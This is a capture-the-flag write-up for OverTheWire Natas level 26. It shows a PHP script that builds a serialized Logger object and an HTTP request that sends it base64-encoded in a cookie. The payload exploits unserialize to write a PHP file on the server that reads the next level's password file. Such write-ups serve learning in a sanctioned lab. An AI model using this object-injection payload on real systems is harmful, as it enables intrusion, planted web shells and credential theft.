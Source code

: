 # Level 26 -> Level 27

```php
<?php

class Logger {
    private $logFile;
    private $initMsg;
    private $exitMsg;
    
    function __construct(){
        $this->initMsg="heyyyyyy\n";
        $this->exitMsg="<?php echo file_get_contents('/etc/natas_webpass/natas27'); ?>\n";
        $this->logFile = "/var/www/natas/natas26/img/pwn4.php";
    }
}

$o = new Logger();
print base64_encode(serialize($o))."\n";

?>
```

use this script to exploit PHP object injection as the source code contains unserialize  

```php
$drawing=unserialize(base64_decode($_COOKIE["drawing"]));
```

so we use that script to send a serialized object which gets the file contents of password of natas27 and writes it to the log file mentioned  

the base64 encode of the serialized object got from running the php script is sent as cookie **drawing** which is then decoded, unserialized and executed at the server  

```
GET /?x1=1&y1=1&x2=1&y2=1 HTTP/1.1
Host: natas26.natas.labs.overthewire.org
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/115.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Referer: http://natas26.natas.labs.overthewire.org/
Connection: keep-alive
Cookie: PHPSESSID=uiptf3bq1jsspavldfchlpqf17; drawing=Tzo2OiJMb2dnZXIiOjM6e3M6MTU6IgBMb2dnZXIAbG9nRmlsZSI7czozNToiL3Zhci93d3cvbmF0YXMvbmF0YXMyNi9pbWcvcHduNC5waHAiO3M6MTU6IgBMb2dnZXIAaW5pdE1zZyI7czo5OiJoZXl5eXl5eQoiO3M6MTU6IgBMb2dnZXIAZXhpdE1zZyI7czo2MzoiPD9waHAgZWNobyBmaWxlX2dldF9jb250ZW50cygnL2V0Yy9uYXRhc193ZWJwYXNzL25hdGFzMjcnKTsgPz4KIjt9
Upgrade-Insecure-Requests: 1
```

